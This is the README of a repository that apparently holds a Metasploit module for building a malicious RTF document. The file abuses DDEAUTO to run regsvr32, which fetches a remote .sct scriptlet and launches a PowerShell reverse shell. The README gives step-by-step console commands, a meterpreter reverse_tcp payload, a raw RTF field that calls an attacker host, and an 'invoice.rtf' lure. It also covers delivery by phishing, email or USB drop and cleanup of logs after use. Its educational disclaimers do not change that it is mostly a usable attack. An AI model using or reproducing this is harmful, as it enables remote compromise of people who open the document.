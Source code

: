 # RTF DDE SCT Exploit (Educational PoC)

This repository contains an educational proof-of-concept RTF exploit that abuses the DDEAUTO field to execute a remote payload via regsvr32 and .sct scripting.

## ⚠️ Disclaimer

This code is provided **strictly for educational and ethical security research purposes**.  
Do not use in any unauthorized or malicious way.  
The author assumes no responsibility for misuse or damage.

## 💥 How It Works

- RTF embeds a DDEAUTO field calling cmd.exe
- Executes regsvr32 with a remote `.sct` file
- `.sct` triggers a PowerShell download-and-execute payload

## 🚫 Not Included

- No real malware or C2
- No reverse shell payloads
- No encoding, no bypass tricks

## 🔗 References

- [DDE abuse explained](https://www.fireeye.com/blog/threat-research/2017/11/deep-dive-into-dde-exploit.html)
- [MITRE T1217: Regsvr32](https://attack.mitre.org/techniques/T1217/)

## 🧪 Usage Instructions

This module creates a malicious RTF document that abuses DDE to execute a remote `.sct` scriptlet, which then triggers PowerShell to download and execute a payload. The flow is:

> Word opens → DDE triggers cmd.exe → regsvr32 fetches `.sct` → `.sct` launches PowerShell → Reverse shell

---

### 🛠 Requirements

* Metasploit Framework
* Linux (Kali, Parrot, etc.) or Windows with Ruby & Metasploit
* Python or another lightweight HTTP server (for testing)
* Network listener (e.g. `msfconsole`, `nc`, etc.)

---

## ⚙️ Step-by-Step Usage

---

### 🔹 **Step 1: Set Up Your Metasploit Module**

1. Place your `exploit.rb` file into:

```bash
~/.msf4/modules/exploits/windows/fileformat/
```

Or use a local Metasploit repo (if you're developing multiple modules).

---

### 🔹 **Step 2: Start Metasploit Console**

```bash
msfconsole
```

---

### 🔹 **Step 3: Load Your Module**

```bash
use exploit/windows/fileformat/your_module_name
```

Example:

```bash
use exploit/windows/fileformat/rtf_dde_sct
```

---

### 🔹 **Step 4: Set Options**

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <your_port>
set FILENAME invoice.rtf
```

Other options:

```bash
set INJECT_PATH /path/to/custom_rtf_template.rtf   # Optional
```

---

### 🔹 **Step 5: Run the Exploit**

```bash
run
```

This will generate a malicious RTF file saved as `invoice.rtf` in Metasploit's `loot` directory.

---

### 🔹 **Step 6: Host the .sct Payload**

Metasploit will host a `.sct` file and PowerShell payload over HTTP.

Keep Metasploit running so it serves the `.sct` request when the victim opens the file.

---

### 🔹 **Step 7: Deliver the RTF File to Target**

* Via phishing
* As an email attachment
* Through USB drop or file share

⚠️ **Note:** This is for **lab use only**. Never use this in the wild.

---

### 🔹 **Step 8: Wait for Callback**

Once the victim opens the RTF in Word:

1. Word executes the embedded `DDEAUTO` field
2. Triggers `regsvr32 /i:http://attacker/shell.sct scrobj.dll`
3. `.sct` runs PowerShell payload
4. Reverse shell connects back to your listener

---

### 🔒 Example RTF DDE Payload:

```rtf
{\field{\*\fldinst {DDEAUTO "cmd.exe" "/c regsvr32 /s /n /u /i:http://<attacker_ip>:8080/payload.sct scrobj.dll"}}{\fldrslt }}}
```

---

## 📦 Output Files

* `invoice.rtf` → Malicious RTF payload
* `.sct` → Auto-generated on-the-fly by Metasploit’s HTTP server

---

## 🔬 Notes

* No macros needed
* Works even in "Protected View" (on some Office versions)
* Targets Windows systems with Microsoft Word installed
* Tested with:

  * Office 2013 / 2016
  * Windows 7 / 10

---

## 🧼 Cleanup

* Remove `.sct` and listener logs after use
* Never commit live C2 IPs or payloads into GitHub
* For demo: replace payload with `calc.exe` or `msgbox`

---
